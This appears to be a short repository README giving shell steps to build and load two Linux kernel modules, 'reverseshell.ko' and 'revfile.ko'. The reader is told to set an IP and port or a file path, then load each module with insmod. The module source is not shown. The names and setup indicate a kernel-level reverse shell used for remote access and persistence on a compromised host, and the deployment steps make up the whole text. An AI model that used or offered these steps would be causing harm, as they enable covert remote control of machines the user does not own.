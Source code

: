 # kernel_module (via bash)

```
> sudo apt-get install -y build-essential linux-headers-$(uname -r)
> # change IP and PORT in reverseshell.c
> sudo make
> sudo chmod +x reverseshell.ko
> sudo insmod reverseshell.ko
```
# kernel_module (via bash script)
> sudo apt-get install -y build-essential linux-headers-$(uname -r)
> # change file path in revfile.c
> # change 1 line in Makefile to <obj-m += revfile.o>
> sudo make
> sudo chmod +x revfile.ko
> sudo insmod revfile.ko

